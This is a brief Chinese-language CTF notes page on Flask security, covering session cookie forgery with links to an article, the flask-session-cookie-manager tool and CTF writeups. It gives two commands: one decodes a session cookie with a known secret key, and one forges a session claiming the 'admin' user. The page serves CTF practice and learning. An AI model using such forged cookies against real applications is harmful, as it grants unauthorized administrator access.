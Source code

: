 # flask安全

---

## session伪造

**相关文章**

- [flask session伪造admin身份](https://blog.csdn.net/since_2020/article/details/119543172)

**相关工具**

- [noraj/flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)
    ```bash
    python3 flask_session_cookie_manager3.py decode -s "thisiskey" -c "eyJ1c2VybmFtZSI6eyIgYiI6IllXUnRhVzQ9In19.YWfurA.sHD-E9MuX4QZJQ4cU07WYykbJZU" # 解密
    python3 flask_session_cookie_manager3.py encode -s "thisiskey" -t "{'username': b'admin'}"  # 加密
    ```

**writeup**
- [[HCTF 2018] admin](https://darkwing.moe/2019/11/04/HCTF-2018-admin/)
- [BUUCTF N1BOOK [第一章 web入门]](https://blog.csdn.net/RABCDXB/article/details/115189884)

